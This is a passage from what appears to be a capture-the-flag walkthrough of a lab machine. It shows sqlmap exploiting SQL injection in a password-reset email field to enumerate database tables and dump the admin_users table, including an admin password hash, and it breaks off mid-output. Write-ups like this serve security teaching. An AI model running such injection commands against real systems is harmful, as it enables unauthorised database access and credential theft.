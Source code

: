 

`information_schema` and `performance_schema` are related to MySQL,
where as `usage_blog` is related to the website. To list the tables in
`usage_blog`, I'll replace `--dbs` with `-D usage_blog --tables`:



    oxdf@hacky$ sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch -D usage_blog --tables
    ...[snip]...
    Database: usage_blog
    [15 tables]
    +------------------------+
    | admin_menu             |
    | admin_operation_log    |
    | admin_permissions      |
    | admin_role_menu        |
    | admin_role_permissions |
    | admin_role_users       |
    | admin_roles            |
    | admin_user_permissions |
    | admin_users            |
    | blog                   |
    | failed_jobs            |
    | migrations             |
    | password_reset_tokens  |
    | personal_access_tokens |
    | users                  |
    +------------------------+
    ...[snip]...



It's a bit slow, so I'll want to dump data selectively. I'll start with
the `admin_users` table, replacing `--tables` with
`-T admin_users --dump`:



    oxdf@hacky$ sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch -D usage_blog -T admin_users --dump  
    ...[snip]...
    Database: usage_blog
    Table: admin_users
    [1 entry]
    +----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
    | id | name          | avatar  | password                                                     | username 
    | created_at          | updated_at          | remember_token                                               |
    +----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
    | 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    